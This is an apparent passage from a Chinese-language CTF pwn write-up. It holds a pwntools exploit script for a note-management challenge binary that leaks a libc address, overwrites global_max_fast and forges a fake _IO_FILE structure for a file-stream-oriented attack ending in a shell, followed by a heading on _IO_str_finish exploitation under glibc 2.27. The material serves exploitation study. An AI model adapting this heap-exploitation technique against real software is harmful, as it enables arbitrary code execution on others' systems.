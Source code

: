 ```python
    p.sendlineafter("Input your note",con)

def dele(idx):
    sla("4.exit",2)
    sla("Input id:",idx)

def login(name,user):
    sla("4.exit",3)
    p.sendafter("Please input your name",name)
    sla("1.admin",user)

# dbg()
add(0x300,'e4l4')
add(0x1400,'e4l4')
dele(0)
add(0x300,'')
p.recvuntil("your note is")
libc_base = uu64()-0x3c4b78
lg("libc_base")
# p/x &global_max_fast
one_gadget = libc_base + 0xf1247
Global_max_fast = libc_base + 0x3c67f8
IO_list_all = libc_base + libc.sym['_IO_list_all']
    
login(p64(one_gadget) + p64(Global_max_fast-8),1)

dele(1)
fake_IO_FILE  = p64(0xFBAD1800) + p64(0)*3
fake_IO_FILE += p64(0) + p64(1)#satisfy write_base < write_ptr
fake_IO_FILE = fake_IO_FILE.ljust(0xC0,'\x00')
fake_IO_FILE += p64(0) + p64(0)*2
fake_IO_FILE += p64(0x6020B0 - 0x18)

add(0x1400,fake_IO_FILE[0x10:])
dele(1)

sla('exit','1')
sla('size',0x100)

# dbg()
p.interactive()
```

2.27下有如下利用

### _IO_str_finish的利用

利用链

```c
fsop->_IO_str_finish
```
